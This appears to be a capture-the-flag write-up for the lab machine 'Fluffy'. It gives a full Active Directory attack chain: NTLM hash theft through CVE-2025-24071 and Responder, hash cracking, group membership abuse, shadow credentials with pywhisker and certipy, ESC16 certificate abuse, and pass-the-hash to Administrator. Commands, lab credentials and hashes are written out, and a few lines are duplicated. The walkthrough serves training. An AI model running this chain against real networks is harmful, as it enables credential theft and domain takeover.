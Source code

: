 # Fluffy





<figure><img src="https://cdn-images-1.medium.com/max/800/1*WOkRFNGGWbrho4Q-nWgI9g.png" alt=""><figcaption></figcaption></figure>

I noticed that DNS plus, Kerberos and Ldap are running so understood that it’s an active directory machine. Since we got domain names ass them into the etc/hosts files.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*mxiLjCq4glHSMnf31osoqA.png" alt=""><figcaption></figcaption></figure>

**SMB**&#x20;

As we have already given creds we’ll check the presence of this user using netexec.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*niev6k_g4PWN4tMyPPKBow.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/800/1*Yp0xdcxp8qsXSaZrYp686g.png" alt=""><figcaption></figcaption></figure>

IT share was a bit off so connected to it.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*X_eyvy3YZ4ywhCEBO1RVUw.png" alt=""><figcaption></figcaption></figure>

These are all the files in IT Share. On Upgrade\_Notice.pdf we caught this.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*NqA9C5lMOCPQbUqnma7rlQ.png" alt=""><figcaption></figcaption></figure>

These are the list of vulnerabilities which should be patched as soon as possible. There are two critical vulns you can go with any of the cve im going exploit CVE-2025–24071.





\


This vuln is on windows 10. What happens is that when you send a zip file to the victim and victim extracts the file you sent his ntlm hash can be leaked via responder.

[https://github.com/Marcejr117/CVE-2025-24071\_PoC.git](https://github.com/Marcejr117/CVE-2025-24071_PoC.git) go through it if want to understand how this exploit works.

So first we have to create a zip file and transfer it into victim machine. We use SMB to do it.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*PHwBzDt_Whw8N2nhCwRvGw.png" alt=""><figcaption></figcaption></figure>

My advice is to start the responder in another terminal before u put the exploit.zip file into the victim machine so that we cannot miss the ntlm hash.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*9MyEE5Rb_e_6g5DNNqFEZw.png" alt=""><figcaption></figcaption></figure>

We have sucessfully recieved the ntlm hash of the user agile so time to crack the hash in our local machine using hashcat.

```
hashcat -m 5600 hash.txt <wordlist>
```

<figure><img src="https://cdn-images-1.medium.com/max/800/1*7JPVzFB7jX6ka7Ngt0X-gQ.png" alt=""><figcaption></figcaption></figure>

We got the password of p.agila:prometheusx-303. We’ll check the validity of the user.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*Pm9u5Rzym9v-hlnIj3RYCA.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/800/1*aoVVqLEzbrQ3eKV0MPhtcw.png" alt=""><figcaption></figcaption></figure>

Take your time and understand it we can observe that p.agila is the member of the service accounts manager and has genericall to service accounts. So we can perform shadow credential attack.

So the first step for performing this attack is to make agila the memeber of service accounts so that we can move forward SCA.

1. &#x20;First we add agila to the members of Service Accounts.We use bloodyAD to do this.

```
bloodyAD --host DC01.fluffy.htb -d fluffy.htb -u "p.agila" -p "prometheusx-303" add groupMember "Service Accounts" "p.agila"
```

<figure><img src="https://cdn-images-1.medium.com/max/800/1*Xyf1pOxaww80RPaqGs_b2Q.png" alt=""><figcaption></figcaption></figure>

We can verify if it was added or not using nxc and dump the data into bloodhound.

```
nxc ldap dc01.fluffy.htb -u 'p.agila' -p 'prometheusx-303' --bloodhound --collection All --dns-tcp --dns-server 10.10.11.69
```

<figure><img src="https://cdn-images-1.medium.com/max/800/1*l0ob14cmtf1Q8GkPFe7hHQ.png" alt=""><figcaption></figcaption></figure>

So we have successfully added agila to Service Accounts.



## Shadow Credential Attack

\


**1) Add attacker principal to SERVICE ACCOUNTS**

```
net rpc group addmem "SERVICE ACCOUNTS" "p.agila" -U "FLUFFY.HTB"/"p.agila"%"prometheusx-303" -S "DC01.FLUFFY.HTB"
```

Notes

* Requires network access to the DC and valid creds for p.agila

**2) Abuse Shadow Credentials with pywhisker2) Abuse Shadow Credentials with pywhisker**

Add a certificate-based identity to the target account (example: winrm\_svc)Add a certificate-based identity to the target account (example: winrm\_svc)

```
pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action add[pywhisker.py](<http://pywhisker.py>) -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action add
```

**3) Obtain a TGT for target via PKINIT**

Use the cert and key output from pywhisker

```
gettgtpkinit -cert-pem oBwGyENT_cert.pem -key-pem oBwGyENT_priv.pem fluffy.htb/winrm_svc winrm_svc.ccache
```

Export the TGT cache for subsequent tools

```
export KRB5CCNAME=winrm_svc.ccache
```

**4) Extract NT hash from the TGT**

```
getnthash -key 3ccd6794d17d1ac416725120643c2d0867858e44556de69ad8854da2d0b0f627 fluffy.htb/winrm_svc
```

Output

* NT hash for winrm\_svc, e.g. 33bd09dcd697600edf6b3a7af4875767

**5) Remote access with Evil-WinRM**

```
evil-winrm -i 10.10.11.69 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
```



## Root

\


This step is not required if we previously did the **User step 5** but with the **ca\_svc** account and we already have the **ca\_svc.ccache** and the NT hash.

```
certipy shadow -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -account 'ca_svc' auto
```

```
[*] Saving credential cache to 'ca_svc.ccache'
File 'ca_svc.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

* `export KRB5CCNAME=ca_svc.ccache`

```
certipy find -vulnerable -u ca_svc@fluffy.htb -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -st
```

* Read initial UPN of the victim account

```
certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -user 'ca_svc' read
```

* Update the victim account’s UPN to the target administrator’s sAMAccountName

```
certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -upn 'administrator' -user 'ca_svc' update
```

* `[*] Updating user 'ca_svc': userPrincipalName  : administrator [*] Successfully updated 'ca_svc'`
* Request a certificate as the “victim” user from any suitable client authentication template (e.g., “User”) on the ESC16-vulnerable CA

```
certipy req -k -dc-ip '10.10.11.69' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -template 'User'
```

* Revert the “victim” account’s UPN.

```
certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
```

* `[*] Updating user 'ca_svc': userPrincipalName  : ca_svc@fluffy.htb [*] Successfully updated 'ca_svc'`
* Authenticate as the target administrator.

```
certipy auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
```

* Now with the Administrator hash, we can simply do a Pass the Hash:

```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e Administrator@10.10.11.6
```

That’s it for this box.
